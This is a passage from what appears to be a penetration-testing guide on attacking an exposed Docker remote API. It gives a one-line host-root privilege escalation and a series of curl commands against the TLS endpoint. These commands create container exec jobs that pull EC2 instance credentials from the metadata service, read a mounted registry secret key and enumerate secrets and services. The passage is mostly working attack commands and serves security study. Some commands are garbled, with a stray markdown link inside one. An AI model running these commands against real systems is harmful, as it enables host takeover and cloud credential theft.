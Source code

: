 ```bash
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.2.6
  GitCommit:        894b81a4b802e4eb2a91d1ce216b8817763c29fb
 runc:
  Version:          1.0.0-rc8
  GitCommit:        425e105d5a03fabd737a126ad93d62a9eeede87f
 docker-init:
  Version:          0.18.0
  GitCommit:        fec3683
```

If you can **contact the remote docker API with the `docker` command** you can **execute** any of the **docker** [**commands previously** commented](2375-pentesting-docker.md#basic-commands) to interest with the service.

> [!TIP]
> You can `export DOCKER_HOST="tcp://localhost:2375"` and **avoid** using the `-H` parameter with the docker command

**Fast privilege escalation**

```bash
docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
```

**Curl**

Sometimes you’ll see **2376** up for the **TLS** endpoint. I haven’t been able to connect to it with the docker client but it's possible to do it with curl.

```bash
#List containers
curl –insecure https://tlsopen.docker.socket:2376/containers/json | jq
#List processes inside a container
curl –insecure https://tlsopen.docker.socket:2376/containers/f9cecac404b01a67e38c6b4111050c86bbb53d375f9cca38fa73ec28cc92c668/top | jq
#Set up and exec job to hit the metadata URL
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/blissful_engelbart/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "wget -qO- [http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"]}'](http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"]}')
#Get the output
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/4353567ff39966c4d231e936ffe612dbb06e1b7dd68a676ae1f0a9c9c0662d55/start -d '{}'
# list secrets (no secrets/swarm not set up)
curl -s –insecure https://tlsopen.docker.socket:2376/secrets | jq
#Check what is mounted
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "mount"]}'
#Get the output by starting the exec
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/7fe5c7d9c2c56c2b2e6c6a1efe1c757a6da1cd045d9b328ea9512101f72e43aa/start -d '{}'
#Cat the mounted secret
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /run/secrets/registry-key.key"]}'
#List service (If you have secrets, it’s also worth checking out services in case they are adding secrets via environment variables)
curl -s –insecure https://tls-opendocker.socket:2376/services | jq
#Creating a container that has mounted the host file system and read /etc/shadow
```